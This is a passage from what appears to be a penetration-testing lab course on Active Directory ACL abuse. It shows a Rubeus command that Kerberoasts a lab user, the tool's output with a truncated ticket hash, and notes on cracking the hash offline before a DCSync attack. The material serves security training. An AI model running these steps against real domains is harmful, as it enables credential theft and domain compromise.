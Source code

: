 If this worked, we should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking. Let's do this with Rubeus.

#### Kerberoasting with Rubeus

  ACL Abuse Tactics

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : adunn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=adunn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : adunn
[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : notahacker/LEGIT
[*] PwdLastSet             : 3/1/2022 11:29:08 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

Great! We have successfully obtained the hash. The last step is to attempt to crack the password offline using Hashcat. Once we have the cleartext password, we could now authenticate as the `adunn` user and perform the DCSync attack, which we will cover in the next section.

---

## Cleanup

In terms of cleanup, there are a few things we need to do:

